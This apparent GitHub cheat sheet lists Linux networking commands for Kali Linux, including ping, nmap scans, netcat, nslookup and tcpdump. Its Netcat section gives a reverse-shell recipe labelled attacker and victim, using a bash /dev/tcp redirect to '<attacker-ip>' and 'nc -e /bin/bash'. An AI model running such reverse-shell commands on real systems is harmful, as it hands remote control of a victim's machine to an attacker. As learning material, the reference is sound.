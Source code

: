 # **Networking Commands - Linux Quick Reference**
Recommended OS: Kali Linux

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [nslookup Commands](#nslookup-commands)
- [Network Troubleshooting](#network-troubleshooting)

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display network info, like IP address.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`ss`**: Show socket statistics (replacement for netstat). `ss -tuln`
- **`whois`**: Retrieve WHOIS information for a domain. `whois example.com`
- **`nmap`**: Scan network for hosts and open ports, for one ip, or a range.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`
- **`mtr`**: Diagnostic tool combining ping and traceroute. `mtr <hostname or ip>`
- **`arp`**: Show or modify the ARP (Address Resolution Protocol) table. `arp -a`
- **`wget`**: Download files from the web. `wget http://example.com/file.zip`

- **`WHOIS`**: Database of DNS [here](https://www.whois.com/).
---

## Netcat Commands

- **Scan for certain ports in a range**: `nc -zv <hostname> 1-100` (z-scan without full connection)
- **Host listens on port**:  `nc -lvp 1234` (l-listning, v-verbose, p-port)
- **Client connects to host**:  `nc <IP> 1234`
- **Send file**:  
  1. Receiver (opens port & prepares to save file):  `nc -lvp 4321 > received_file.txt`  
  2. Sender (connects & sends file to receiver’s IP):  `nc <receiver_ip> 4321 < /path/to/my_file.txt` (use absolute path)
- **Reverse Shell**:  
  1. Sender/Attacker (listens for connection)::  `nc -lvp 4444`  
  2. Receiver/Victim (connects & gives interactive shell to attacker):  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
  - Note: On some systems use `nc -l -p 1234 -e /bin/bash`
- **`ncat`**: Netcat's more secure version for encrypted SSL connections. `ncat --ssl -l 1234`

---

## nslookup Commands

- **Basic DNS Lookup**: `nslookup <hostname>`  
- **Use Specific DNS Server for Lookup**: `nslookup <hostname> <dns-server>`  
- **Reverse DNS Lookup (IP to Domain)**: `nslookup <IP-address>`  
- **Query DNS Record Type**:  `nslookup -type=<record-type> <hostname>`  
  - Replace `<record-type>` with `A`, `AAAA`, `MX`, `TXT`, `SOA`, `CNAME`, etc.
- **Query DNS for Specific Port**:  `nslookup -query=SRV _sip._tcp.<hostname>`  
- **Set DNS Server to Use**:  `nslookup <hostname> <dns-server>`
- **Trace the DNS Resolution Path**:  `nslookup -debug <hostname>`  
- **Interactive Mode**:  `nslookup`  
  - To query different record types (e.g., `set type=A`).

---

## Network Troubleshooting

- **`dig`**: Query DNS, alternative to nslookup.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Display name of your computer on the network.  `hostname`
- **`nfsstat`**: Display NFS (Network File System) statistics. `nfsstat -c`
- **`iwconfig`**: Configure wireless network interfaces. `iwconfig wlan0`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
